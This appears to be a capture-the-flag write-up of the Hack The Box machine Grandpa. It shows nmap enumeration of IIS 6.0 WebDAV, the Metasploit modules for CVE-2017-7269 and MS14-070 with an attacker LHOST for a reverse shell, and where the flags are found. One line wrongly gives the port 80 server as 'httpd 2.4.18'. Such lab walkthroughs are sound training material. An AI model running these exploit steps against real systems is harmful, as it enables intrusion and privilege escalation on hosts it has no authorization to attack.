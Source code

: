 ![logo](/logo.png)

# [Grandpa- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on 12 Apr 2017 as the eleventh machine on HTB,Granpa created by ch4p.So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *Microsoft-IIS
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/grandpa 10.10.10.14
```

###### Output 

![](/Windows/Windows-Easy/Grandpa/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/grandpa 10.10.10.14                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 19:42 EAT
Nmap scan report for 10.10.10.14
Host is up (0.35s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-webdav-scan: 
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_  Server Date: Mon, 12 Aug 2024 16:43:23 GMT
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.17 seconds
```

looking at the results  we find out that there is 1 ports open and its a `Windows`and its running an `Microsoft IIS httpd 6.0`. 

port[80]-  httpd 2.4.18

when we naviagate to [http://10.10.10.14](http://10.10.10.14)  we find a page that say it under construction 

![](/Windows/Windows-Easy/Grandpa/Screenshots/under.png)

so we know the machine version so what we are going to do is to search for the exploit 

```sh
searchsploit Microsoft IIS 6.0 
```

![](/Windows/Windows-Easy/Grandpa/Screenshots/searchsploit.png)

Some searching reveals a remote code execution vulnerability (CVE-2017-7269). There is a proof of concept that requires some modification, as well as a Metasploit module. Lets examine the Remote Buffer Overflow

![](/Windows/Windows-Easy/Grandpa/Screenshots/py.png)

After Examining the exploit we now Import it to our working directory.

# Exploitation

Executing the Metasploit module `windows/iis/iis_webdav_scstoragepathfromurl` immediately grants a shell.

```sh
use windows/iis/iis_webdav_scstoragepathfromurl
set RHOSTS 10.10.10.14
set RPORT 80
set LHOST 10.10.14.15
run
```

![](/Windows/Windows-Easy/Grandpa/Screenshots/shell.png)

now that the meterpreter is refusing to get some infomation we just load the shell and do a `systeminfo` so that we can be able to see if their are hot fixes 

![](/Windows/Windows-Easy/Grandpa/Screenshots/systeminfo.png)

we find that their is only one hotfix that is done

![](/Windows/Windows-Easy/Grandpa/Screenshots/hotfix.png)

we noticed that it running a 32 bit meterpreter so lets migrate to a 32 bit meterpreter with `NT Authority` and be able to run a `local suggester`

After migrating we can now be able to run `sysinfo`

![](/Windows/Windows-Easy/Grandpa/Screenshots/sysinfo.png)

now i run suggester to find exploits which are vulnerable

# Privillage Exploitation

```sh
search local_exploit_suggester
use multi/recon/local_exploit_suggester
```

![](/Windows/Windows-Easy/Grandpa/Screenshots/suggester.png)

looking at the results we find that their are a couple of exploits 

![](/Windows/Windows-Easy/Grandpa/Screenshots/exploits.png)

In this case lets try this exploit `exploit/windows/local/ms14_070_tcpip_ioctl`

```sh
use exploit/windows/local/ms14_070_tcpip_ioctl
```

![](/Windows/Windows-Easy/Grandpa/Screenshots/shell2.png)

and just that way we get shell

![](/Windows/Windows-Easy/Grandpa/Screenshots/shellroot.png)

we can get the user flag from `C:\Documents and Settings\Harry\Desktop`

![](/Windows/Windows-Easy/Grandpa/Screenshots/userflag.png)

we can get the root flag from `C:\Documents and Settings\Administrator\Desktop\root.txt`

![](/Windows/Windows-Easy/Grandpa/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------



